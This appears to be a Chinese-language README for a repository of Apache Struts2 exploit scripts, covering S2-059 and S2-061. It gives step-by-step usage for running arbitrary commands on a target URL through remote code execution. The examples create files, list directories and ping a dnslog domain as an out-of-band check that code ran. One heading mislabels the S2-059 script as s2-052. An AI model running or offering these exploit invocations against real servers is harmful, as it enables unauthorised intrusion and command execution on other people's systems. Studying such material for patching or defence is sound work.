 # 此仓库为strus2历史版本的poc集合
## s2-052_exploit.py 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-059 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。
python环境为pyhon2.7 
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：

```
python s2-059_exploit.py -u <URL> -c <命令>

- `-u` 或 `--url`：指定存在 Apache Struts 漏洞的目标 URL。
- `-c` 或 `--command`：提供要在目标系统上执行的命令。

示例：

python2 s2-059_exploit.py -u http://example.com/orders/3/edit -c "/usr/bin/touch /tmp/aa /tmp/bb"
python2 s2-059_exploit.py -u http://example.com/orders/3/edit -c "ping l9mgao.dnslog.cn"
```
##  s2-061_exploit.py 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-061 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。如远程命令为系统输出命令`id`,`ls /tmp`,`pwd`,可直接回显
python环境为 python3.9
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：
```
python s2-061_exploit.py -p <利用参数> -u <URL> -c <命令> 
- `-u` 或 `--url`：指定目标 URL。
- `-c` 或 `--command`：指定要执行的命令。
- `-p` 或 `--param`：指定 可利用的s2参数。

示例：
python3 s2-061_exploit.py -p id -u http://example.com/ -c "ls /tmp"
python3 s2-061_exploit.py -p id -u http://example.com/ -c "pwd"
python3 s2-061_exploit.py -p id -u http://example.com/ -c "touch /tmp/test"
```
